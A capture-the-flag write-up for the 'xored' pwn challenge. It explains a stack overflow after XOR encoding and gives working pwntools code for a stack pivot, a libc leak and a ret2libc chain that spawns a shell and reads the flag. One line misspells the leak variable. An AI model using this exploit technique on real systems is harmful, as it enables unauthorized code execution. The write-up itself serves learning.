




# pwn / xored

by *StateOfLimbo* for *coldboots*

---

## Challenge description
```
Pwn/xored   (2 solves / 494 points)
nordbo

EPT presents, THE SECURE(tm) XOR ENCRYPT0R!

nc io.ept.gg 30012
```

We are given the following files
```
xored-handout/
xored-handout/xored
xored-handout/Dockerfile
xored-handout/libc.so.6
```

## Analysis

Dockerfile reveals it runs on ubuntu:20.04, flag file is /opt/flag and we are provided with the correct version of libc. Nice!
The binary is approptiately called xored. 

Running checksec on the binary reveals No PIE, No Canary and Partial RELRO


Let's decompile it in Ghidra

```c
void xorit(long mem,long key)
{
  int i;
  
  for (i = 0; i < 0x10; i = i + 1) {
    *(byte *)(mem + i) = *(byte *)(mem + i) ^ *(byte *)(key + i % 0x10);
  }
  return;
}

undefined4 main(void)
{
  int i;
  undefined local_98 [120];
  size_t strlength;
  char *heap_mem;
  undefined4 local_c;
  
  local_c = 0;
  ignore_me_init_buffering();
  ignore_me_init_signal();
  puts("Some people say xor encryption is not secure. That is obviously a lie.");
  puts(
      "What if i told you we can use TWO seperate keys for our encryption, and we keep the keys seuc re on our server? No one will ever figure that out!"
      );
  puts("EPT presents, THE SECURE(tm) XOR ENCRYPT0R!");
  heap_mem = (char *)malloc(160);
  printf("Enter ciphertext\n> ");
  fgets(heap_mem,160,stdin);
  strlength = strlen(heap_mem);
  for (i = 0; (ulong)(long)i <= strlength >> 4; i = i + 1) {
    xorit(heap_mem + (i << 4),keys + (long)(i % 2) * 0x10);
  }
  memcpy(local_98,heap_mem,strlength);
  printf("the results:\n");
  write(1,local_98,strlength);
  return local_c;
}
```

Analysing this shows that the heap_mem buffer of max 160 bytes is xored 16 bytes a time with alternating keys. These keys are however contigous in memory, so xoring with the entire 32 byte array works the same.

Then the 160 byte buffer is copied into a 120 byte buffer on the stack, giving us 40 bytes of overflow and probably controlling the return pointer of main(). First, however we have to xor the payload with the key to make the `xorit` function unpack the intended payload in memory instead of `securely encrypting` it.


## A way to a solve

### solve script skeleton

```
pwn template --quiet --host=io.ept.gg --port=30012 ./xored > solve.py
```

### Xor function

I extracted the key from Ghidra by copying as a python byte string. This is actually all printable ascii, but I didn't notice until later.
Xor each byte of the buffer with the key and we should get a usable payload.

```python
def CodeIt(payload):
    key = b'\x4b\x75\x43\x4f\x4c\x63\x35\x50\x49\x48\x33\x6d\x67\x50\x36\x6e\x4a\x78\x46\x33\x44\x42\x48\x58\x62\x44\x48\x53\x71\x4d\x30\x59'
    result = b''
    for i in range(len(payload)):
        result += int.to_bytes((payload[i] ^ key[i%32]),1,'little')
    return result
```
(yes I'm a C programmer, can you tell? Jeg sminker ikke liket i etterkant for denne anledningen heller :shrug:)

### Buffer overflow a simple ret2libc, right?

By controlling the return pointer on the stack, this should be a straight forward ret2libc. Our strategy is as follows:
* Leak a libc address from the Global Offset Table (GOT) and calculate the libc base address
* return back to main()
* build a second ROP-chain in libc, calling `system("/bin/sh")`.
* PWND!!1
  
Time to test the xor function and the buffer overflow by adding this to the solve script:

```python
io.sendafter(b'> ', CodeIt(cyclic(160)))
```

Starting the solve script with the following arguments to run locally, get debug log info, attach gdb and no ASLR (Address space layout randomization); meaning libc, heap and stack addresses will not be randomised. This way we can compare addresses between runs.
```sh
./solve.py LOCAL DEBUG GDB NOASLR
```

I set a breakpoint at the last printf and view the main functions stack after the buffer overflow



We can see that we have written 160 bytes, but only barely reached the return pointer @ `0x007fffffffe5e8`
This means that there is a gap between our buffer and the end of the stack, eating away at our 40 byte overflow. It seems we only get one single jump in our ROP.
There are not many viable options in this situation. A one-gadget in libc would be nice, but we don't know the base address when running with ASLR (which the remote server has enabled in 99 of 99 cases)

Another option is to look for something that manupulates `rsp` to give us additional ROP jumps. I use pwntools' `ROPgadget` to check for gadgets

```sh
$ ROPgadget --binary xored | grep rsp
0x0000000000401263 : adc byte ptr [rbp - 0x3d], bl ; sub rsp, 0x50 ; ret
0x0000000000401229 : add rsp, 0x10 ; pop rbp ; ret
0x0000000000401492 : add rsp, 0xd0 ; pop rbp ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x000000000040151b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004014fd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040151d : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401266 : sub rsp, 0x50 ; ret
0x000000000040151c : sub rsp, 8 ; add rsp, 8 ; ret
```

`0x0000000000401266 : sub rsp, 0x50 ; ret` looks promising. this will subtract 0x50 from `rsp` and actually place the stack pointer inside our buffer, meaning that we can construct our ROP chain there. (the next return pointer is always popped off `rsp`) The buffer position will probably be 160-0x50 because that's the numbers we know. let's just make python figure out the actual position, I don't do math in multiple bases.

Ackhtually, let's look at the gadget in ghidra for fun and learning.

```
                             LAB_00401260                                    XREF[1]:     0040123f(j)  
        00401260 48 83 c4 10     ADD        RSP,0x10
        00401264 5d              POP        RBP
        00401265 c3              RET
        00401266 48              ??         48h    H
        00401267 83              ??         83h
        00401268 ec              ??         ECh
        00401269 50              ??         50h    P
        0040126a c3              ??         C3h
        0040126b 00              ??         00h
        0040126c 00              ??         00h
        0040126d 00              ??         00h
        0040126e 00              ??         00h
        0040126f 00              ??         00h
``` 

at 0x00401266 It's not even disassembled as part of a function. Surely someone hasn't put it there for us to find?
Disassembling it manually in Ghidra shows indeed the same as the ROPgadget utility. You will probably not find this gadget this readily in every case! ;-)

```
        00401266 48 83 ec 50     SUB        RSP,0x50
        0040126a c3              RET
```

### Testing the pivot gadget. What could possibly go wrong?

Ok. So I remove the cyclic overflow and replace with this, to see if I can get the instruction pointer to land on `0xc01db0075`

```python
pivot_gadget = 0x401266
rop_pos = 160 - 0x50 

payload = b'A'*rop_pos
payload += p64(0xc01db0075)
payload += b'A'*(160-8-len(payload))
payload += p64(pivot_gadget)
io.sendafter(b'> ', CodeIt(payload))
```

Standard stuff.. calculate our ROP position.. pad with 'A' like a normal human being!
Probably need some more padding. Let python worry about the size again. (Don't judge!)
And the last 8 bytes is the return pointer.. so it should jump inside the buffer and segfault at `0xc0ldb0075`

I do the breakpoint thing again at the last printf and inspect the stack:




### Checking the debug output

We should have seen a lot of `AAAAAAAAAAAAAAAAAAAAAAAAAA` and/or 0x4141414141414141!

Luckily we used the `DEBUG` argument, and can see that the first byte is `0x0a` which is an endline.
This has probably short circuited the input of the fgets. good times! 

```
[DEBUG] Sent 0xa0 bytes:
    00000000  0a 34 02 0e  0d 22 74 11  08 09 72 2c  26 11 77 2f  __4____"t____r,_&_w/_
    00000010  0b 39 07 72  05 03 09 19  23 05 09 12  30 0c 71 18  __9_r______#____0_q__
    00000020  0a 34 02 0e  0d 22 74 11  08 09 72 2c  26 11 77 2f  __4____"t____r,_&_w/_
    00000030  0b 39 07 72  05 03 09 19  23 05 09 12  30 0c 71 18  __9_r______#____0_q__
    00000040  0a 34 02 0e  0d 22 74 11  08 09 72 2c  26 11 77 2f  __4____"t____r,_&_w/_
    00000050  3f 78 9d 32  48 42 48 58  23 05 09 12  30 0c 71 18  _?x_2_HBHX_#____0_q__
    00000060  0a 34 02 0e  0d 22 74 11  08 09 72 2c  26 11 77 2f  __4____"t____r,_&_w/_
    00000070  0b 39 07 72  05 03 09 19  23 05 09 12  30 0c 71 18  __9_r______#____0_q__
    00000080  0a 34 02 0e  0d 22 74 11  08 09 72 2c  26 11 77 2f  __4____"t____r,_&_w/_
    00000090  0b 39 07 72  05 03 09 19  04 56 08 53  71 4d 30 59  __9_r_______V_S_qM0Y_
    000000a0
```

OK, so the key has some tripwires, but changing the padding to write `b'\0'` instead of `b'A'` yields better results.




The return pointer points to the gadget that does `sub rsp, 0x50` and `0xc01db0075` is placed in the right spot. the last ret tried to set the program counter to `0xc01db0075`

SUCCESS! This is as good as pwndmfs!

### Leak the libc

Ready to get going with the ret2libc, we construct the following rop-chain using pwntools and add it to the payload in place of `0xc01db0075`


```python
rop = ROP(exe)
rop.puts(exe.got['printf'])
rop.raw(rop.ret.address)   #ALIGN!
rop.raw(exe.sym.main)
```

If you have done ret2libc before this should look familiar. rop.puts() does the pop rdi and argument handling stuff for you, and the stack needed aligning so we put another ret and then loop around to main to get another prompt for input.

This will call `puts` to output the address of `printf` in libc. Knowing an address in libc and it's offset will enable us to calculate any function or gadget in libc. This is powerful stuff!

TL;DR on the stack alignment is always align the stack on 16 bytes. Unaligned stack leads to all sorts of trouble. See the pwn/rip writeup for an excellent explanation why. At this point I just automatically align 6 out of 10 times! 


Next we capture the address of `printf` outputted by `puts`. Then calculate the libc base by subtracting the print-offset in the libc ELF object.
After setting libc.address, any symbol will from now on output the actual address of the symbol.

```python
libc = ELF('./libc.so.6')
io.recvuntil(b'the results:\n')
libc_leak = u64(io.recvline().strip().ljust(8, b'\0'))
log.info(f"printf @ {hex(lib_cleak)}")

libc.address = lib_cleak - libc.sym.printf
log.info(f"libc @ {hex(libc.address)}")
```

Output:
```
[*] printf @ 0x7ffff7e32c90
[*] libc @ 0x7ffff7dd1000
[*] Switching to interactive mode
Some people say xor encryption is not secure. That is obviously a lie.
What if i told you we can use TWO seperate keys for our encryption, and we keep the keys seucre on our server? No one will ever figure that out!
EPT presents, THE SECURE(tm) XOR ENCRYPT0R!
Enter ciphertext
> $  
```

Perfect! :chefskiss:

### Pop a shell ftw

Let's construct a second rop-chain to pop a shell. `system("/bin/sh")` is all we need.
Same procedure as last time, miss Sophie?

Change the ropchain a bit and everything else is the same.. No problem!

```python
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\0')))

payload = b'\0'*(160-0x50)
payload += bytes(rop.chain())
payload += b'\0'*(160-8-len(payload))
payload += p64(pivot_gadget)

io.sendafter(b'> ', CodeIt(payload))
```


# And we get a shell!


Instead we are greeted with 
```
Child terminated with signal = 0xb (SIGSEGV)   
```

The stack look horrible and garbled. What is going on?



Let's print some debut output for the payloads:

```python
secur = CodeIt(payload)
log.info(f"raw 1st payload: {secur}")
io.sendafter(b'> ', secur)
```

Output:
```
[*] raw 1st payload: b'KuCOLc5PIH3mgP6nJxF3DBHXbDHSqM0YKuCOLc5PIH3mgP6nJxF3DBHXbDHSqM0YKuCOLc5PIH3mgP6nIm\x063DBHXZ\x04\x08SqM0Y\x0be\x03OLc5PSXsmgP6nZk\x063DBHXbDHSqM0YKuCOLc5PIH3mgP6nJxF3DBHX\x04V\x08SqM0Y'
[*] raw 2nd payload: b'KuCOLc5PIH3mgP6nJxF3DBHXbDHSqM0YKuCOLc5PIH3mgP6nJxF3DBHXbDHSqM0YKuCOLc5PIH3mgP6n #\xd7Wc=HX\xdf!\xe27V20Y\xdb7\xd7+k\x1c5PIH3mgP6nJxF3DBHXbDHSqM0YKuCOLc5PIH3mgP6nJxF3DBHX\x04V\x08SqM0Y'
```

Ok. so `KuCOLc`-something-something in both cases.. that's the encoded 0-padding showing the ascii of the key. Cool.. 
Let's check out the xorit function by checking the input and output of the function.

Setting a breakpoint on xorit in gdb:
```
gef_  b xorit
Breakpoint 2 at 0x4012a4
```

Ok.. Input in first iteratiion looks good:
```
$rdi   : 0x000000004052a0  _  "KuCOLc5PIH3mgP6nJxF3DBHXbDHSqM0YKuCOLc5PIH3mgP6nJx[...]"
```

Second iteration not so much: Foiled by a stray character in front... `'Y'`. Whyyyyyy!?

```
$rdi   : 0x00000000405350  _  "YKuCOLc5PIH3mgP6nJxF3DBHXbDHSqM0YKuCOLc5PIH3mgP6nJ[...]"
```

It's only padding so by shaving off a byte at the front of the payload (killing the 'K' in 'KuCOL'), everything else should align up like before:

```python
io.sendafter(b'> ', secur[1:])
```


This time we get a shell for real:

```
the results:
$ 
$ whoami
ept
$ ls -la
total 52
drwxr-xr-x 1 root root    83 Oct 22 16:33 .
drwxr-xr-x 1 root root    17 Oct 22 16:33 ..
-rwxr-xr-x 1 root root   220 Feb 25  2020 .bash_logout
-rwxr-xr-x 1 root root  3771 Feb 25  2020 .bashrc
-rwxr-xr-x 1 root root   807 Feb 25  2020 .profile
-rwxrwxr-x 1 root root 17328 Oct 22 16:33 xored
-rwxrwxr-x 1 root root 18744 Oct  1 18:14 ynetd
$ cat /opt/flag
EPT{t0ld_y0u_x0r_1s_s3cur3_!}$  
``` 


